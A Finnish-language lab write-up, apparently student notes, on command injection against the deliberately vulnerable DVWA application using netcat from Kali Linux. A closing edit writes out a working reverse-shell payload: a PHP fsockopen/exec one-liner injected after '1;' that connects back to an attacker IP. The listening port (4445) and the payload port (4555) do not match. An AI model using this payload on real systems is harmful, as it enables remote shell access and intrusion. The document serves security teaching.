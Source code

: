 -e ‘/bin/bash’ = "execute" - kun yhteys saadaan, suoritetaan annettu komento. Meni hetkonen aikaa keksiä että hipsujen käyttö on tässä pakollista.


-l = listen mode. Netcat kuuntelee yhteyksiä.

-p = porttinumero jota netcat kuuntelee

Annettu komento ei anna mitään vastausta. Menikö komento perille? Mitään virheitä ei kuitenkaan tule. Päätän lisätä komentooni `-v`-flagin (=verbose). Se ei auta. 

Onkohan yhteys silti auki? Kokeilen ottaa yhteyden Kali Linuxilla:


![](./img/dvwa-exec-05.png)

Ei onnistu. nmapin mukaan portti on kuitenkin auki.

*Edit: luennolla opittua: oikeasti nc-yhteys saadaan aikaiseksi (tässä tapauksessa) näin:*

- *Asetetaan nc kuuntelemaan hyökkäyskoneella esimerkiksi porttia 4445 komennolla `nc -lvp 4445`*
- *Avataan nc-yhteys DVWA:n hakukentästä komennolla `1; php -r '$sock=fsockopen("192.168.56.102",4555);exec("/bin/sh -i <&3 >&3 2>&3");'`*
- *`1;` on ip-osoite + komennon break*
- *`php -r '$sock=fsockopen...` -komento on php-skripti joka käynnistää avoimen socketin ip/portti -yhdistelmällä, `exec()` käynnistää shellin*
- *Hyökkäyskoneeseen avautuu shell-yhteys*

